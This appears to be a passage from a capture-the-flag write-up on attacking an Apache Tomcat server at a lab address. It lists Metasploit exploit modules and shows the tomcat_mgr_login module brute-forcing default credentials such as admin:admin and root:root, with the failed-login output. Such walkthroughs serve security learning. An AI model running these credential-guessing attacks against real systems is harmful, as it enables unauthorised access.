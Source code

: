 ```
   auxiliary/scanner/http/tomcat_mgr_login                                       normal     Tomcat Application Manager Login Utility
   exploit/multi/http/struts_code_exec_classloader              2014-03-06       manual     Apache Struts ClassLoader Manipulation Remote Code Execution
   exploit/multi/http/struts_dev_mode                           2012-01-06       excellent  Apache Struts 2 Developer Mode OGNL Execution
   exploit/multi/http/tomcat_jsp_upload_bypass                  2017-10-03       excellent  Tomcat RCE via JSP Upload Bypass
   exploit/multi/http/tomcat_mgr_deploy                         2009-11-09       excellent  Apache Tomcat Manager Application Deployer Authenticated Code Execution
   exploit/multi/http/tomcat_mgr_upload                         2009-11-09       excellent  Apache Tomcat Manager Authenticated Upload Code Execution
   exploit/multi/http/zenworks_configuration_management_upload  2015-04-07       excellent  Novell ZENworks Configuration Management Arbitrary File Upload
   post/multi/gather/tomcat_gather                                               normal     Gather Tomcat Credentials
   post/windows/gather/enum_tomcat                                               normal     Windows Gather Apache Tomcat Enumeration
```

Let's try the Tomcat login module first.

```
msf > use auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(scanner/http/tomcat_mgr_login) > set BLANK_PASSWORDS true
BLANK_PASSWORDS => true
msf auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS 10.10.10.95
RHOSTS => 10.10.10.95
msf auxiliary(scanner/http/tomcat_mgr_login) > set USER_AS_PASS true
USER_AS_PASS => true
msf auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8080
RPORT => 8080
msf auxiliary(scanner/http/tomcat_mgr_login) > run

[-] 10.10.10.95:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:admin (Incorrect)
```